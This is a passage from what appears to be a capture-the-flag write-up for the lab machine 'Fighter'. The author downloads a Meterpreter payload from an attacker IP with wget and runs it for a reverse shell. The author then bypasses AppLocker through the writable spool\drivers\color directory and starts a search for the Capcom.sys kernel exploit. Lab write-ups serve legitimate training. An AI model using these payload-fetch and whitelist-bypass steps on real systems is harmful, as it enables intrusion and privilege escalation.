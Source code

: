     PS C:\programdata> wget 10.10.14.6/met.exe -outfile met



Now I'll just start the process with PowerShell:



    PS C:\programdata> Start-Process -Filepath C:\programdata\met -Wait -NoNewWindow



And it returns a shell at `msfconsole`.

#### color Directory

There's a common directory, `C:\Windows\System32\spool\drivers\color`,
which is known to be a AppLocker whitelisted directory, and it's world
writable. For example:



    PS C:\programdata> copy met met.exe
    copy : Access to the path 'C:\programdata\met.exe' is denied.
    At line:1 char:1
    + copy met met.exe
    + ~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (C:\programdata\met:FileInfo)  
       [Copy-Item], UnauthorizedAccessException
        + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsof 
       t.PowerShell.Commands.CopyItemCommand
    PS C:\programdata> copy met C:\windows\system32\spool\drivers\color\met.exe



The first one is blocked, but the second one works without issue. I can
run from there as well.

### MSF Capcom Exploit

#### Identify

With a meterpreter shell on Fighter, I can use the Metasploit Capcom
exploit:



    msf6 exploit(multi/handler) > search capcom

    Matching Modules
    ================

       #  Name                                   Disclosure Date  Rank    Check  Description
       -  ----                                   ---------------  ----    -----  -----------
       0  exploit/windows/local/capcom_sys_exec  1999-01-01       normal  Yes    Windows Capcom.sys Kernel Execution Exploit (x64 only)


    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/capcom_sys_exec
